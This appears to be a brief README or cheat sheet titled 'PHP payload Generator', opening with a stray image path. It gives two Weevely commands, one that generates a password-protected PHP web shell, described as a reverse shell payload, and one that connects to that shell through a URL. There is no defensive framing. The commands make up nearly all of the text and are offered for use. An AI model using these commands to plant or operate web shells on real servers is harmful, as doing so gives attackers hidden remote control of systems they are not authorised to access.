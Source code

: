 # PHP payload Generator

## To generate reverse shell payload
```Weevely <password> /path/filename.php```
## To connect to the payload
```Weevely <URL> <Password>```
